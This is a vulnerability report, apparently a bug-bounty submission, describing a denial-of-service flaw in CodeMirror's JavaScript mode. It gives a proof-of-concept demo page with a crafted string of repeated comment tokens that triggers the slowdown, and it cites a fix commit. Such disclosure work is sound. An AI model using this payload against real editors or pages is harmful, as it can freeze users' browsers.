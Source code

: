 **Submission details:**

**Package Manager:** npm
**Affected module:** codemirror
**Link to published package:** https://github.com/codemirror/CodeMirror
**Link to GitHub repo:** https://github.com/codemirror/CodeMirror
**Other vulnerability type:** 
**Severity level:** High
**Module Description:** CodeMirror is a versatile text editor implemented in JavaScript for the browser.

**Vulnerability Description:**

It allows cause a denial of service when calling the javascript mode.

**Steps to reproduce:**

```html
<!doctype html>

<title>CodeMirror: Sublime Text bindings demo</title>
<meta charset="utf-8"/>
<link rel=stylesheet href="../doc/docs.css">

<link rel="stylesheet" href="../lib/codemirror.css">
<link rel="stylesheet" href="../addon/fold/foldgutter.css">
<link rel="stylesheet" href="../addon/dialog/dialog.css">
<link rel="stylesheet" href="../theme/monokai.css">
<script src="../lib/codemirror.js"></script>
<script src="../addon/search/searchcursor.js"></script>
<script src="../addon/search/search.js"></script>
<script src="../addon/dialog/dialog.js"></script>
<script src="../addon/edit/matchbrackets.js"></script>
<script src="../addon/edit/closebrackets.js"></script>
<script src="../addon/comment/comment.js"></script>
<script src="../addon/wrap/hardwrap.js"></script>
<script src="../addon/fold/foldcode.js"></script>
<script src="../addon/fold/brace-fold.js"></script>
<script src="../mode/javascript/javascript.js"></script>
<script src="../keymap/sublime.js"></script>
<style>
  .CodeMirror {border-top: 1px solid #eee; border-bottom: 1px solid #eee; line-height: 1.3; height: 500px}
  .CodeMirror-linenumbers { padding: 0 8px; }
</style>
<div id=nav>
  <a href="https://codemirror.net"><h1>CodeMirror</h1><img id=logo src="../doc/logo.png"></a>

  <ul>
    <li><a href="../index.html">Home</a>
    <li><a href="../doc/manual.html">Manual</a>
    <li><a href="https://github.com/codemirror/codemirror">Code</a>
  </ul>
  <ul>
    <li><a class=active href="#">Sublime bindings</a>
  </ul>
</div>

<article>
<h2>Sublime Text bindings demo</h2>

<p>The <code>sublime</code> keymap defines many Sublime Text-specific
bindings for CodeMirror. See the code below for an overview.</p>

<p>Enable the keymap by
loading <a href="../keymap/sublime.js"><code>keymap/sublime.js</code></a>
and setting
the <a href="../doc/manual.html#option_keyMap"><code>keyMap</code></a>
option to <code>"sublime"</code>.</p>

<p>(A lot of the search functionality is still missing.)

<script>
  var value = "async/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*/**//*!"
  var editor = CodeMirror(document.body.getElementsByTagName("article")[0], {
    value: value,
    lineNumbers: true,
    mode: "javascript",
    keyMap: "sublime",
    autoCloseBrackets: true,
    matchBrackets: true,
    showCursorWhenSelecting: true,
    theme: "monokai",
    tabSize: 2
  });
</script>

</article>

```

You can execute  `./Poc/CodeMirror/demo/sublime.html`



**Did I contact the maintainer:** Yes
**Did I open an issue:** No

**References:**

https://github.com/codemirror/CodeMirror/commit/55d0333907117c9231ffdf555ae8824705993bbb